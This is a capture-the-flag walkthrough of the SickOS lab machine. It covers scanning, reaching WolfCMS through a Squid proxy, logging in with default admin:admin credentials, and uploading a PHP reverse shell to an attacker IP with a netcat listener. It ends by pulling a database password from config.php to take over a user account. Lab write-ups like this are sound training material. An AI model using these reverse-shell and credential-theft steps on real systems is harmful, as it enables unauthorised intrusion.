# Sick OS write Up 

I got the ip address for the target machine using:
```bash

sudo arp-scan -l

```

Target ip -> 192.168.100.9

### Network Scanning 

```bash

# Nmap 7.95 scan initiated Wed Aug 20 03:03:28 2025 as: /usr/lib/nmap/nmap --privileged -sV -o nmap_full_scan 192.168.100.9
Nmap scan report for 192.168.100.9
Host is up (0.0030s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 08:00:27:1C:91:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 20 03:03:45 2025 -- 1 IP address (1 host up) scanned in 16.43 seconds

```

Open Ports are 22(ssh) and 3128(htttp-proxy) 
Here 22 has no vulnearability 

3128 has Squid http proxy, to access the proxy I used foxy proxy, and to navigated to 127.0.0.1


I navigated to robots.txt and got the path to /wolfcms which redirected to the wolf cms homepage


Let's use go buster to get the hidden dirs and endpoints of the cms


```bash

gobuster dir -u http://127.0.0.1/wolfcms/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.bak,.html,.js,.sh,.txt --proxy http://192.168.100.9:3128

```

> --proxy is used to resolve the proxy connection 



Lets Navigate to /docs
After some enumeration in files I got updataing.txt and it has following version 


So wolfcms version has vulnearablity listed on exploit-db


So lets navigate to URL, I got a login page:


Here I tried default username and password admin:admin and got the admin access of the cms


Here, I got the admin dashboard which has a functionality to upload a file, I will use to upload a reverse shell php script and use netcat to listen to connection from the target machine

```php
$ip = '192.168.100.5';
$port = 1234;
```

The uploaded file can be executed using following path: `http://127.0.0.1/wolfcms/public/`

```bash
nc -nlvp 1234  
```

### Here we got the reverse shell and we are logged in as www-data


After Enumartion in /home I got the user `sickos`, now I need to get its password

In the README.md file I got the following hint:


So as per the hint, we have to get the dbconnect file which will has password

I got the config.php and we have a database connection along with password lets try that password:


### We got the user sicoks access on the target machine


